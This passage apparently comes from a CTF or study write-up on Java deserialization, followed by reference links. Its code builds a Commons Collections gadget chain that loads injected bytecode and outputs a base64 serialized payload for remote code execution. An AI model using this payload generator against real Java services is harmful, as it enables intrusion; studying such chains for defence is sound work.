        Field bytecodesField = tc.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("E://Test.class"));
        byte[][] codes = {code};
        bytecodesField.set(templates,codes);

        Field tfactoryField = tc.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates,new TransformerFactoryImpl());

        //初始化加载类
//        templates.newTransformer();
        InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", null, null);


        HashMap<Object, Object> hashMap = new HashMap<>();
        Map lazymap = LazyMap.decorate(hashMap,new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazymap,templates);
        lazymap.put(tiedMapEntry,null);
        lazymap.remove(templates);

        Class<LazyMap> lazyMapClass = LazyMap.class;
        Field factory = lazyMapClass.getDeclaredField("factory");
        factory.setAccessible(true);
        factory.set(lazymap,invokerTransformer);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(hashMap);
        return Base64.getEncoder().encodeToString(barr.toByteArray());
    }
    public static void setFieldValue(Object obj, String field, Object val) throws Exception{
        Field dField = obj.getClass().getDeclaredField(field);
        dField.setAccessible(true);
        dField.set(obj, val);
    }
    public static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        return baos.toByteArray();
    }

    public static Object Unserialize(String Filename) throws IOException,ClassNotFoundException{

        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = objectInputStream.readObject();
        return obj;

    }
    public static void Serialize(Object obj) throws IOException {
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        objectOutputStream.writeObject(obj);

    }
}
```



## 参考文章

<https://tttang.com/archive/1701/#toc_rmiconnector>

<https://www.freebuf.com/articles/web/372573.html#/>

<https://www.yuque.com/dat0u/ctf/en3rym0131fuby60#>
